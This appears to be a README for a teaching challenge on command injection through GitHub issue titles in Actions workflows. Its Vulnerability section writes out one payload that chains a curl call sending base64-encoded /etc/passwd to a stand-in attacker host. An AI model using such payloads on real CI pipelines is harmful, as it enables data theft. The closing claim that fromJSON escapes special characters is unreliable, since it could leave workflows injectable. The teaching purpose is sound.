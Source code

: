 # Challenge 1: Command Injection from Issue Title

This challenge demonstrates a command injection vulnerability that can occur when using the issue title directly in a `run` step.

## Vulnerability

The `vulnerable.yml` workflow is triggered when a new issue is opened. The `run` step in the `vulnerable_job` directly uses the issue title in a shell command. An attacker can create an issue with a malicious title that includes shell commands. For example, an attacker could create an issue with the title:

```
; curl http://attacker.com/$(cat /etc/passwd | base64)
```

When the workflow runs, the shell will execute the `curl` command, sending the base64-encoded contents of the `/etc/passwd` file to the attacker's server.

## Fix

The `fixed.yml` workflow mitigates this vulnerability by passing the issue title as an environment variable to the script. This ensures that the issue title is treated as a single string and not executed as a command.

## Advanced Mitigation

In addition to using environment variables, you can also use the `fromJSON` function to parse the issue title and escape any special characters. This can provide an extra layer of protection against command injection attacks.
